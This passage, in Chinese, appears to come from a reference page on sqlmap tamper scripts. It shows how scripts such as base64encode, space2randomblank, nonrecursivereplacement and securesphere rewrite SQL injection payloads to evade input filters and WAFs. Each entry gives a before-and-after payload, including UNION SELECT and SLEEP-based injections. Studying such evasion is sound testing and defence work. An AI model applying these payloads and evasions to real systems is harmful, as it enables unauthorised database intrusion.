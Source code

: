 适用数据库：ALL

作用：将引号替换为utf-8，用于过滤单引号
使用脚本前：`tamper("1 AND '1'='1")`
使用脚本后：`1 AND %EF%BC%871%EF%BC%87=%EF%BC%871`

#### **base64encode.py**

适用数据库：ALL
作用：替换为base64编码
使用脚本前：`tamper("1' AND SLEEP(5)#")`
使用脚本后：`MScgQU5EIFNMRUVQKDUpIw==`

#### **multiplespaces.py**

适用数据库：ALL
作用：围绕sql关键字添加多个空格
使用脚本前：`tamper('1 UNION SELECT foobar')`
使用脚本后：`1 UNION SELECT foobar`

#### **space2plus.py**

适用数据库：ALL
作用：用加号替换空格
使用脚本前：`tamper('SELECT id FROM users')`
使用脚本后：`SELECT+id+FROM+users`

#### **nonrecursivereplacement.py**

适用数据库：ALL
作用：作为双重查询语句，用双重语句替代预定义的sql关键字（适用于非常弱的自定义过滤器，例如将select替换为空）
使用脚本前：`tamper('1 UNION SELECT 2--')`
使用脚本后：`1 UNIOUNIONN SELESELECTCT 2--`

#### **space2randomblank.py**

适用数据库：ALL
作用：将空格替换为其他有效字符
使用脚本前：`tamper('SELECT id FROM users')`
使用脚本后：`SELECT%0Did%0DFROM%0Ausers`

#### **unionalltounion.py**

适用数据库：ALL
作用：将`union all select` 替换为`union select`
使用脚本前：`tamper('-1 UNION ALL SELECT')`
使用脚本后：`-1 UNION SELECT`

#### **securesphere.py**

适用数据库：ALL
作用：追加特定的字符串
使用脚本前：`tamper('1 AND 1=1')`
使用脚本后：`1 AND 1=1 and '0having'='0having'`
